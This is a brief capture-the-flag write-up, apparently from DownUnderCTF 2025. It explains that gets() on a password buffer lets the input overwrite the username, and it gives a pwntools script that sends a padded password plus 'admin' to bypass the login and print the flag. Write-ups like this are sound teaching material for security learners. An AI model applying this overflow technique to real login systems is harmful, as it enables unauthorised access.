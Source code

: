 # Solution

vuln at `gets(password);` leads to username overwrite and bypass the checks.

```
from pwn import *

p = remote('chal.2025-us.ductf.net', 30000)  
p.sendlineafter(b"Enter your username: ", b"guest")

admin_pass = b"\xf0\x9f\x87\xa6\xf0\x9f\x87\xa9\xf0\x9f\x87\xb2\xf0\x9f\x87\xae\xf0\x9f\x87\xb3"

payload = admin_pass.ljust(32, b"\x00")     
payload += b"admin"    

p.sendlineafter(b"Enter your password: ", payload)

p.interactive()
```

Flag: DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}

Solved by: n3rr